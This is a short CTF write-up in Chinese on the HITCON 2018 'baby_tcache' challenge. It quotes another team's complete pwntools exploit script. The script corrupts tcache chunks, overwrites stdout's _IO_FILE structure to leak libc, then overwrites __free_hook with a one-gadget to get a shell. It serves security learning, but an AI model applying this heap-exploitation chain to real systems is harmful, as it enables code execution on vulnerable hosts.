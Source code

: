 # HITCON2018 baby_tcache
## Wenhuo

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>同样也是经典的tcache题，难点在于无法用常规题的show来leak出数据，这里我参考了[bi0s队伍](https://vigneshsrao.github.io/babytcache/)的writeup,利用了_IO_FILE结构的stdout中的_IO_write_ptr-_IO_write_base来扩大输出的范围，从而leak出可以用来计算libc_base的数据达到目的。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>引用一下大佬们的writeup:</font></br>

引用自bi0s
======

```python
from pwn import *
import sys

HOST='52.68.236.186'
PORT=56746

#context.terminal=['tmux', 'splitw', '-h']
#context.terminal = ['urxvtc', '-e', 'sh', '-c']

if len(sys.argv)>1:
    r=remote(HOST,PORT)
else:
    r=process('./baby_tcache',env={"LD_PRELOAD":"./libc.so.6"})
    context.log_level='debug'
    gdb.attach(r)

libc=ELF("./libc.so.6")

def menu(opt):
    r.sendlineafter("Your choice: ",str(opt))

def alloc(size,data='a'):
    menu(1)
    r.sendlineafter("Size:",str(size))
    r.sendafter("Data:",data)

def delete(idx):
    menu(2)
    r.sendlineafter("Index:",str(idx))

def getleak():
    alloc(0x500-0x8)  # 0
    alloc(0x30)   # 1
    alloc(0x40)  # 2
    alloc(0x50)  # 3
    alloc(0x60)  # 4
    alloc(0x500-0x8)  # 5
    alloc(0x70)  # 6
    delete(4)
    alloc(0x68,'A'*0x60+'\x60\x06')  # set the prev size
    delete(2)
    delete(0)
    delete(5)  # backward coeleacsing
    alloc(0x500-0x9+0x34)
    delete(4)
    alloc(0xa8,'\x60\xc7')  # corrupt the fd of the tcache-fastbin
    alloc(0x40,'a')
    #gdb.attach(r,'''b*0x0000555555554D21\nb*_IO_file_seek''')
    alloc(0x3e,p64(0xfbad1800)+p64(0)*3+'\x00')  # overwrite the file-structure
    r.recv(8)
    libc.address=u64(r.recv(8))-0x3ed8b0
    log.info("libc @ "+hex(libc.address))
    alloc(0xa8,p64(libc.symbols['__free_hook'])) # corrupt twice
    alloc(0x60,"A")
    alloc(0x60,p64(libc.address+0x4f322)) # one gadget with $rsp+0x40 = NULL
    delete(0)

    r.interactive()


if __name__=='__main__':

    getleak()

```